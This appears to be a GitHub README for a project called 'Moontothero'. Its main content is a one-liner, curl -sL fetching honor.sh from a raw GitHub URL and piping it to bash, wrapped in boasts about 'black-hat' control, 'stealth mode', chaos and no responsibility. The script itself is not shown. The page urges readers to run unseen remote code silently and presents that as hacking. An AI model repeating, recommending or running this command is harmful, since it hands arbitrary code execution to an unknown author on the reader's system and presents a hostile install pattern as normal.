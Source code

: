 🌙 Moontothero 🚀
Welcome to Moontothero, the ultimate script to launch your system into the stratosphere! This ain't your average bash script—it's a one-liner that packs a punch, delivering raw power with a single command. Ready to go full black-hat and take control? 😎
🔥 Quick Start
Unleash the beast with this slick command:
curl -sL https://raw.githubusercontent.com/sbrk255/moontothero/honor.sh | bash

💥 Boom! Your system is now on a one-way trip to the moon. No rules, no limits—just pure, unfiltered chaos.
🛠️ What It Does

Instant Execution: Grabs the honor.sh script from the void and runs it like a rogue AI.
Zero Fucks Given: No bureaucracy, no red tape—just results.
Stealth Mode: Silent (-s) and lightweight, it moves like a ghost.

⚠️ Warning
This script is for the bold, the reckless, the hackers who laugh in the face of "best practices." Run it at your own risk. We ain't responsible if your system turns into a digital supernova. 🌌
🧑‍💻 Contributing
Wanna join the dark side? Fork this repo, tweak the script, and send a PR. Only the most devilish contributions make the cut. 😈
📜 License
No chains here. Do whatever the hell you want with it. Just don’t cry when it bites back.

Built for those who code with no mercy. 👽
